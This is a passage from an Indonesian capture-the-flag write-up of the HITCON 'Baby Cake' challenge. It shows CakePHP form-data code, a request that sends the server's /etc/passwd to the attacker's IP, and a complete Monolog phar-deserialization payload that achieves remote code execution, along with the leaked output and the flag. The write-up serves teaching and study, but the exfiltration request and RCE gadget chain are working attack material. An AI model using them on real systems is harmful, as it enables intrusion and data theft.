            $this->addRecursive($name, $value);
        } elseif (is_resource($value)) {
            $this->addFile($name, $value);
        } elseif (is_string($value) && strlen($value) && $value[0] === '@') {
            trigger_error(
                'Using the @ syntax for file uploads is not safe and is deprecated. ' .
                'Instead you should use file handles.',
                E_USER_DEPRECATED
            );
            $this->addFile($name, $value);
        } elseif ($name instanceof FormDataPart && $value === null) {
            $this->_hasComplexPart = true;
            $this->_parts[] = $name;
        } else {
            $this->_parts[] = $this->newPart($name, $value);
        }

        return $this;
    }

    /**
     * Add multiple parts at once.
     *
     * Iterates the parameter and adds all the key/values.
     *
     * @param array $data Array of data to add.
     * @return $this
     */
    public function addMany(array $data)
    {
        foreach ($data as $name => $value) {
            $this->add($name, $value);
        }

        return $this;
    }

    /**
     * Add either a file reference (string starting with @)
     * or a file handle.
     *
     * @param string $name The name to use.
     * @param mixed $value Either a string filename, or a filehandle.
     * @return \Cake\Http\Client\FormDataPart
     */
    public function addFile($name, $value)
    {
        $this->_hasFile = true;

        $filename = false;
        $contentType = 'application/octet-stream';
        if (is_resource($value)) {
            $content = stream_get_contents($value);
            if (stream_is_local($value)) {
                $finfo = new finfo(FILEINFO_MIME);
                $metadata = stream_get_meta_data($value);
                $contentType = $finfo->file($metadata['uri']);
                $filename = basename($metadata['uri']);
            }
        } else {
            $finfo = new finfo(FILEINFO_MIME);
            $value = substr($value, 1);
            $filename = basename($value);
            $content = file_get_contents($value);
            $contentType = $finfo->file($value);
        }
        $part = $this->newPart($name, $content);
        $part->type($contentType);
        if ($filename) {
            $part->filename($filename);
        }
        $this->add($part);

        return $part;
    }
 ```

Eksekusi pada fungsi `addMany(array $data)` akan mengiterasi array yang dimasukkan untuk diproses menggunakan `add($name, $value)`. Pada fungsi `add($name, $value)`, apabila `$value` adalah string yang diawali `@`, maka `$this->addFile($name, $value);` akan dipanggil.

Pada `addFile($name, $value)`, karena `$value` adalah string, maka `$value = substr($value, 1);` dan `$content = file_get_contents($value);` akan tereksekusi. Dengan ini, kita dapat mengontrol parameter dari `file_get_contents`!

#### Local File Disclosure

Untuk mengujinya, kita dapat mencoba Local File Disclosure. Data request yang dibuat akan dikirim langsung menuju URL dengan menggunakan `fopen` pada `Cake\Http\Client\Adapter\Stream`.

Berikut adalah request untuk mengirimkan `/etc/passwd` ke IP kita.

```
POST http://13.230.134.135/?url=http://IP&data[test]=@/etc/passwd
```

Pada IP kita, kita akan mendapatkan `/etc/passwd` dari server!

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
orange:x:1001:1001:,,,:/home/orange:/bin/bash
```

Kita juga dapat melihat bahwa konfigurasi Apache menggunakan `000-default.conf` dan direktori web berada di `/var/www/html`.

```
POST http://13.230.134.135/?url=http://IP&data[test]=@/etc/apache2/sites-enabled/000-default.conf
```

```
<VirtualHost *:80>
	...

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	...
</VirtualHost>
```

Percobaan untuk mendapatkan flag dari Local File Disclosure tidak berhasil. Oleh karena itu, kita harus meningkatkannya menjadi Remote Code Execution.

#### Remote Code Execution

Dengan menggunakan fitur yang ada di web, kita dapat menyimpan konten body dari web kita di `/var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(URL)/body.cache`. Strategi yang dapat dilakukan adalah:

1. Buat payload untuk melakukan PHP Object Injection dari berbagai Class yang tersedia.
2. Letakkan payload PHP Object Injection tersebut pada suatu file phar, misal `exploit.phar` di IP kita.
3. Download `http://IP/exploit.phar` dari web sehingga cache akan tersimpan di `/var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(http://IP/exploit.phar)/body.cache`
4. Lakukan POST pada web dengan URL web sembarang dan data untuk membuka `phar://` stream wrapper sehingga terjadi `unserialization`.

Untuk `gadgets`, di sini kita akan mencoba menggunakan `Monolog` dengan referensi dari https://github.com/ambionics/phpggc/tree/master/gadgetchains/Monolog/RCE/1.

Berikut adalah kode untuk membuat payload `exploit.phar` yang akan mengeksekusi `system('ls -alt')`.

```php
<?php

namespace Monolog\Handler
{
    class SyslogUdpHandler
    {
        protected $socket;
        function __construct($x)
        {
            $this->socket = $x;
        }
    }
    class BufferHandler
    {
        protected $handler;
        protected $bufferSize = -1;
        protected $buffer;
        # ($record['level'] < $this->level) == false
        protected $level = null;
        protected $initialized = true;
        # ($this->bufferLimit > 0 && $this->bufferSize === $this->bufferLimit) == false
        protected $bufferLimit = -1;
        protected $processors;
        function __construct($methods, $command)
        {
            $this->processors = $methods;
            $this->buffer = [$command];
            $this->handler = clone $this;
        }
    }
}

namespace{
    $cmd = "ls -alt";

    $obj = new \Monolog\Handler\SyslogUdpHandler(
        new \Monolog\Handler\BufferHandler(
            ['current', 'system'],
            [$cmd, 'level' => null]
        )
    );

    $phar = new Phar('exploit.phar');
    $phar->startBuffering();
    $phar->addFromString('test', 'test');
    $phar->setStub('<?php __HALT_COMPILER(); ? >');
    $phar->setMetadata($obj);
    $phar->stopBuffering();

}
```

Pertama, akses URL `exploit.phar` pada aplikasi web agar cache-nya disimpan.

```
GET http://13.230.134.135/?url=http://IP/exploit.phar
```

Lalu, gunakan POST request untuk membuka stream 'phar://' dengan lokasi cache dari `exploit.phar` sebagai path.

```
POST http://13.230.134.135/?url=http://IP&data[test]=@phar:///var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(http://IP/exploit.phar)/body.cache
```

Dan RCE berhasil dilakukan!

```
total 104
drwxr-xr-x  26 root root  1000 Oct 21 11:08 run
drwxrwxrwt   2 root root  4096 Oct 21 06:25 tmp
-rwsr-sr-x   1 root root  8568 Oct 18 19:53 read_flag
drwxr-xr-x  23 root root  4096 Oct 18 19:53 .
drwxr-xr-x  23 root root  4096 Oct 18 19:53 ..
drwx------   5 root root  4096 Oct 18 17:12 root
drwxr-xr-x  90 root root  4096 Oct 18 11:23 etc
dr-xr-xr-x  13 root root     0 Oct 16 07:57 sys
-r--------   1 root root    54 Oct 15 19:49 flag
drwxr-xr-x   4 root root  4096 Oct 15 19:41 home
drwxr-xr-x   3 root root  4096 Oct  9 06:07 boot
lrwxrwxrwx   1 root root    31 Oct  9 06:07 initrd.img -> boot/initrd.img-4.15.0-1023-aws
lrwxrwxrwx   1 root root    28 Oct  9 06:07 vmlinuz -> boot/vmlinuz-4.15.0-1023-aws
drwxr-xr-x   2 root root  4096 Oct  9 06:07 sbin
lrwxrwxrwx   1 root root    14 Oct  8 17:14 www -> /var/www/html/
drwxr-xr-x  14 root root  4096 Oct  8 17:13 var
drwxr-xr-x   5 root root  4096 Oct  8 17:06 snap
drwxr-xr-x  15 root root  2980 Oct  8 17:06 dev
dr-xr-xr-x 136 root root     0 Oct  8 17:06 proc
lrwxrwxrwx   1 root root    31 Sep 12 16:16 initrd.img.old -> boot/initrd.img-4.15.0-1021-aws
lrwxrwxrwx   1 root root    28 Sep 12 16:16 vmlinuz.old -> boot/vmlinuz-4.15.0-1021-aws
drwxr-xr-x  20 root root  4096 Sep 12 16:16 lib
drwx------   2 root root 16384 Sep 12 16:10 lost+found
drwxr-xr-x   2 root root  4096 Sep 12 15:59 bin
drwxr-xr-x   2 root root  4096 Sep 12 15:56 lib64
drwxr-xr-x  10 root root  4096 Sep 12 15:55 usr
drwxr-xr-x   2 root root  4096 Sep 12 15:55 media
drwxr-xr-x   2 root root  4096 Sep 12 15:55 opt
drwxr-xr-x   2 root root  4096 Sep 12 15:55 mnt
drwxr-xr-x   2 root root  4096 Sep 12 15:55 srv
```

File `/flag` tidak bisa dibuka karena hanya bisa dibaca oleh `root`. Sepertinya kita harus membacanya dengan mengeksekusi `/read_flag` yang merupakan setuid binary. Jika `tty` diperlukan, kita bisa melakukan reverse shell. Namun, tty tidak diperlukan sehingga eksekusi `system('/get_flag')` dengan memodifikasi payload sebelumnya akan memberikan kita flag.

Flag: **hitcon{smart_implementation_of_CURLOPT_SAFE_UPLOAD><}**

FYI, [Orange](https://twitter.com/orange_8361) (pembuat soal) sudah menemukan bahwa `phar://` dapat melakukan `unserialize` di internal sejak tahun lalu, lebih dulu dari pada orang lain yang mempresentasikannya di Black Hat USA 2018.

Referensi:
- https://github.com/orangetw/My-CTF-Web-Challenges#babyh-master-php-2017
- https://blog.ripstech.com/2018/new-php-exploitation-technique/